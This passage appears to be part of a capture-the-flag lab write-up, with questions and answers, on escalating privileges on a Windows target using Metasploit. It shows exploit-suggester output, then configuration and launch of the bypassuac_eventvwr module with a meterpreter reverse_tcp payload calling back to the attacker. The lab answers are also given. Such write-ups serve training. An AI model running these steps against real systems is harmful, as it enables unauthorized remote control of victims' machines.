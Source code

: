 ```
[*] 10.10.170.20 - 37 exploit checks are being tried...
[+] 10.10.170.20 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.170.20 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
**Answer**: `exploit/windows/local/bypassuac_eventvwr`
### What is the name of the incorrect option for `exploit/windows/local/bypassuac_eventvwr`?
```
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_eventvwr) > set session 1
session => 1
msf6 exploit(windows/local/bypassuac_eventvwr) > show options 

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86
```
**Answer**: `LHOST`
### What permission listed by `getprivs` allows us to take ownership of files?
```
msf6 exploit(windows/local/bypassuac_eventvwr) > set LHOST tun0
LHOST => <OPENVPN_IP>
msf6 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on <OPENVPN_IP>:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
```
